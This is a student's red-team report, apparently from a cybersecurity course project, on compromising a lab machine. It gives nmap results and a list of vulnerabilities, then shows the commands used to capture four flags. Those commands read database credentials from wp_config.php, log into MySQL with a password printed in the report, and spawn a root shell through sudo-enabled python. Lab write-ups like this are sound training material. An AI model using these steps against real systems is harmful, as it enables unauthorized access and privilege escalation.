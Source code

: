 # Cyber-Security-Final-Project

# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
#  Nmap scan report for 192.168.1.110
#  Host is up (0.00072s latency).
#  Not shown: 995 closed ports
#  PORT    STATE SERVICE     VERSION
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
#  111/tcp open  rpcbind     2-4 (RPC #100000)
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)
#  Device type: general purpose
#  Running: Linux 3.X|4.X
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
#  OS details: Linux 3.2 - 4.9
#  Network Distance: 1 hop
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios / smb)
  - Port 445 (netbios / smb)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` user enumeration
    - `wpscan` was able to enumerate users and find valid usernames for the
      target system.
    - ![wp-scan-output](./images/wp-scan-output.png)
  - SSH with Password
    - Users are able to ssh into the machine with simply a password, rather than
      requiring an SSH key.
    - User `michael` had an incredibly weak password (same as his username).
  - `python` can run with sudo
    - User `steven` has the ability to run `python` with `sudo`
    - Python can execute arbitrary code on the system, so it is trivial to get
      a shell with root access using this loophole
  - Database credentials in plain text
    - Database credentials for the wordpress site were found written in plain
      text, and stored in the `/var/www/html/wp_config.php`.
    - This allowed us to access the mysql database used for the site, and
      extract password hashes and other confidential information.
  - [CVE-2017-3167](https://access.redhat.com/security/cve/CVE-2017-3167)
    - Authentication bypass is possible on the version of Apache running on the
      server
  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - Version of `samba` running on the server is insecure and allows for remote
      code execution.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, we were able
          to search the `/var/www/html` directory for `flag1`.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www/html`
        - `grep -ER flag1`
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, `flag2` was
          found right in `/var/www`
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www`
        - `cat flag2.txt`
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
        - After getting the database credentials from
          `/var/www/html/wp_config.php`, we connected to the `mysql` database
          and searched for the flag.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `less /var/www/html/wp_config.php`
        - `mysql --user root --password` # Password is `R@v3nSecurity`
        - `mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";`
        - This returned the value for flag 3
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - `python` can run with sudo
        - After cracking `steven`'s password using `john` and the hash found in
          the database, we determined that user `steven` could run `python` with
          `sudo` permissions.
        - This allows us to use python as sudo to execute a shell program,
          thereby granting us access to the `root` account.
        - `flag4.txt` was found in the `/root` directory, the `root` account's
          home directory.
      - Commands run:
        - `python -c 'import os; os.system("/bin/sh")'`
        - `cat flag4.txt`


